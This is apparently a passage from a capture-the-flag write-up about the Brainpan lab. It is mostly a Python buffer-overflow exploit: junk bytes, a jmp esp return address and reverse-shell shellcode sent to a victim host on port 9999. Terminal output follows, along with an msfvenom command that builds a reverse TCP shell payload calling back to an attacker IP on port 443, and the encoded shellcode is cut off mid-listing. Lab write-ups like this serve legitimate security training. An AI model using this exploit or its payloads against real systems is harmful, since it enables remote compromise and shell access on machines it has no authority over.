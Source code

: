 
#!/usr/bin/python
# etFuzz.py - Xerubus' malleable fuzzer

import sys,socket

victim = '192.168.118.185'
port = 9999

junk = "\x41" * 524
eip = "\xf3\x12\x17\x31" #jmp esp 311712F3 brainpan.exe
buf =  ""
buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0"
buf += "\xa8\x76\xb4\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50"
buf += "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73"
buf += "\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0"
buf += "\x0b\xcd\x80"

payload = junk + eip + buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  print "[-] Connecting to " + str(victim)
  s.connect((victim, port))
  s.recv(1024)

  # Send payload
  print "[-] Sending payload.... ",
  s.send(payload)
  print "Done"

except:
  print "[-] Unable to connect to " + str(victim)
  sys.exit(0)

root@kali:~/brainpan# python fuzz.py
[-] Connecting to 192.168.118.185
[-] Sending payload....  Done

I don't get the reverse shell, my shellcode is much smaller.  Back to messing with msfvenom.

root@kali:~/brainpan# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.118.180 LPORT=443 R -e x86/alpha_upper -b "\x00" -f python
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_upper
x86/alpha_upper succeeded with size 205 (iteration=0)
x86/alpha_upper chosen with final size 205
Payload size: 205 bytes
Final size of python file: 990 bytes
buf =  ""
buf += "\x89\xe2\xd9\xce\xd9\x72\xf4\x5d\x55\x59\x49\x49\x49"
buf += "\x49\x43\x43\x43\x43\x43\x43\x51\x5a\x56\x54\x58\x33"
buf += "\x30\x56\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41"
buf += "\x30\x30\x41\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41"
buf += "\x42\x32\x42\x42\x30\x42\x42\x58\x50\x38\x41\x43\x4a"
buf += "\x4a\x49\x36\x51\x59\x4b\x5a\x57\x4a\x43\x51\x43\x37"
buf += "\x33\x51\x43\x33\x5a\x35\x52\x4d\x59\x4d\x31\x38\x30"
buf += "\x55\x36\x38\x4d\x4d\x50\x4d\x43\x36\x39\x4e\x50\x47"
buf += "\x4f\x38\x4d\x4d\x50\x30\x49\x44\x39\x4b\x49\x33\x58"
buf += "\x4f\x30\x49\x38\x42\x56\x58\x34\x33\x58\x35\x52\x35"
buf += "\x50\x45\x51\x4f\x4b\x4b\x39\x4b\x51\x38\x30\x43\x56"
buf += "\x36\x30\x46\x31\x56\x33\x4e\x53\x55\x53\x4b\x39\x4d"